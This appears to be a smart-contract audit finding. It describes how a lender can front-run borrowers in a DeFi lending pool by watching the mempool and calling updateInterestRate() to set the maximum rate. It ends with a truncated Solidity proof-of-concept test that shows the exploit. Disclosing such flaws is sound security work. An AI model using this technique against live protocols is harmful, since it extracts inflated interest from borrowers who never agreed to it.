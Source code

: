 When a borrower initiates a borrowing transaction, it is typically recorded in a mempool before it is confirmed and included in a block on the blockchain. During this time, the borrowing transaction is visible to other participants, including lenders and arbitrageurs. A lender who closely monitors the mempool can observe pending borrowing transactions and take advantage of the situation.

The critical component in this scenario is the **`updateInterestRate()`** function. This function is responsible for setting the interest rate for the borrower's loan.This is how the flow works

1. Monitor all borrowing transactions: The lender continuously monitors the mempool for all incoming borrowing transactions, regardless of the loan amount or collateral-to-loan ratio.
2. Execute the front-run: Whenever a borrowing transaction is detected, the lender quickly initiates their own transaction providing high gas, ensuring they call the **`updateInterestRate()`** function before the original transaction can do so.
3. Set the interest rate to the maximum: By calling the **`updateInterestRate()`** function first, the lender sets the interest rate to the maximum allowed value, irrespective of the borrower's willingness to take the loan at that high rate.
4.  Benefit from all transactions: By front-running and setting the interest rate to the maximum for every loan, the lender ensures that all borrowers are subjected to significantly higher interest rates than they should be paying based on fair market conditions and risk assessments.
5. Unfair profit from all loans: With the ability to manipulate the interest rates across all borrowing transactions, the lender makes unfair profits from each loan, as borrowers will have to pay inflated interest rates that they did not expect or agree to.

## POC
```js

function test_frontrunBorrowAndIncreaseInterest() public {
        //    Lender set pool
        Pool memory p = Pool({
            lender: lender1,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 20 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        vm.startPrank(lender1);
        bytes32 poolId = lender.setPool(p);
        vm.stopPrank();
        (,,,,,,, uint256 interestRate,) = lender.pools(poolId);
        console.log("Initial Interest Rate", interestRate / 100, "%");

        console.log("Frontrunning borrow transaction by increasing interest rate...");
        vm.startPrank(lender1);
        lender.updateInterestRate(poolId, 100000);
        vm.stopPrank();
        (,,,,,,, uint256 interestRate1,) = lender.pools(poolId);
        console.log("Interest Rate after frontrunning", interestRate1 / 100, "%");

        // Mint some loan token to borrower
        loanToken.mint(address(borrower), 200 * 10 ** 18);
        // Borrower borrows
        vm.startPrank(borrower);
        Borrow memory b = Borrow({poolId: poolId, debt: 100 * 10 ** 18, collateral: 100 * 10 ** 18});

        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;
        lender.borrow(borrows);

        vm.warp(block.timestamp + 2 days); //increase time since borrow to accumulate interest
```
